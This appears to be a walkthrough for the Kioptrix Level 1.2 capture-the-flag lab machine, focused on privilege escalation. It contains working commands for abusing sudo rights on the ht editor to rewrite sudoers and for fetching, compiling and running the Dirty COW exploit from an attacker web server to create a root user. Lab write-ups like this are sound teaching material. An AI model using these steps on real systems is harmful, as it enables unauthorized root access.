



[Kioptrix Level 1.2 (#3) Walkthrough](https://www.doyler.net/security-not-included/kioptrix-level-1-2-3-walkthrough)

## Privilege Escalation

For proceeding with the steps for gaining root access login into the system as the user `loneferret` or `dreg`.

### Approach 1: HT Editor

```bash
ls -lah
cat CompanyPolicy.README
```



In the home directory for `loneferret` there are two file `checksec.sh` which seems to be a script to check the security of files. Additionally, there is a `CompanyPolicy.README` which instructs the users to use `ht` editor for working with files. The file instructs to invoke `ht` with the `sudo` command.

```bash
# View user sudo permissions
sudo -l
```



The sudoers file shows that `loneferret` can run the `ht` command as root without a password. By using `sudo` the `ht` editor will get launched as the root user this should allow you to modify system files without the root password.

```bash
sudo ht

export TERM=xterm
sudo ht
```


Using F3 we can select the file to open in the editor.




Alternatively, by removing the ! from before the first command `loneferret` will be able to run the `su` command without a password which will also grant root access. Another approach would be to remove everything after the `:` and replace it with `ALL`. This would allow `loneferret` to run all commands as root without a password.

Use F2 to save the file and Ctrl + Z to exit the application.

```bash
sudo /bin/bash

whoami
id
```



`ht` editor also has a Buffer Overflow exploit. But the exploit script is written in an older version of Perl. The script needs to be updated to make it work on the target.

[HT Editor 2.0.18 - File Opening Stack Overflow - Linux local Exploit](https://www.exploit-db.com/exploits/17083)

### Approach 2: Kernel Exploit

The enumeration that was performed in the information-gathering stage discovered that the target is running kernel v2.6.x.

```bash
uname -a
cat /proc/version_signature
```



By a quick search, it can be found that this version of the Linux kernel is vulnerable to the `DirtyCow` exploit.

[Linux Kernel 2.6.22 < 3.9 - 'Dirty COW' 'PTRACE\_POKEDATA' Race Condition Privilege Escalation (/etc/passwd Method) - Linux local Exploit](https://www.exploit-db.com/exploits/40839)

By setting up a web server the exploit can be downloaded onto the target. The steps to execute the exploit are provided in the code itself. On running the exploit a password for a new user (`firefart`) has to be provided. This user will have `root` privileges i.e. full access to the system.

```bash
# Attach Machine (Web server)
python -m http.server 9001

# Target Machine
wget http://10.0.2.15:9001/dirtycow.c

gcc -pthread dirtycow.c -o dirtycow -lcrypt
./dirtycow password

su firefart
id
```


```bash
ls -lah /root/
cat /root/Congrats.txt
```




Overall this level was quite challenging compared to the previous levels. But it was a fun exercise that presented multiple varied approaches for compromising a system.